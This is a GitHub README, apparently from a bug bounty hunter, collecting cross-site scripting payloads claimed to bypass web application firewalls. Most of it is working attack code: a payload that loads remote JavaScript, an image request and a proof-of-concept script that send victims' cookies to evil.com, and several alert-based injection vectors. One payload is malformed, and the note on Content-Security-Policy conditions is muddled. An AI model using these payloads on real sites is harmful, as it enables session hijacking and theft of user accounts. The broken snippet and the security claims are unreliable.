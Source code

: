# AwsomeXSS
Some collection of xss payloads that worked for me to bypass wafs while doing bb

### Payloads

1. **Inject External JavaScript without `<script>` Tag:**
   
```html
<img src=x onerror="var script = document.createElement('script'); script.src = 'https://basedygt.github.io/xss.js'; document.head.appendChild(script);">
```

2. **Data Exfiltration through Image Source (when CSP is disabled):**

```html
<img src="https://evil.com/?data=" + encodeURIComponent(document.cookie)">
```

Vulnerable when

- Absence of Content-Security-Policy header in the response
- Presence of Content-Security-Policy header with a value of `default-src` or `none`

3. **CSS-Based XSS:**

```css
body { background-image: url('javascript:alert("XSS")'); }
```

4. **SVG XSS:**

```html
<svg/onload=alert(document.domain)>
```

5. **Event Handlers to Execute Payload:**

```html
<button onclick="alert('XSS')">Click Me</button>
```

6. **JavaScript Protocol Handler:**
   
```html
<a href="javascript:alert('XSS')">Click Me</a>
```

### Cookie Stealer Example:

```js
// XSS cookie stealer POC
var cookie = encodeURIComponent(document.cookie);
var url = 'https://evil.com/index.html/?victim_cookie=' + cookie;
window.location.href = url;
```
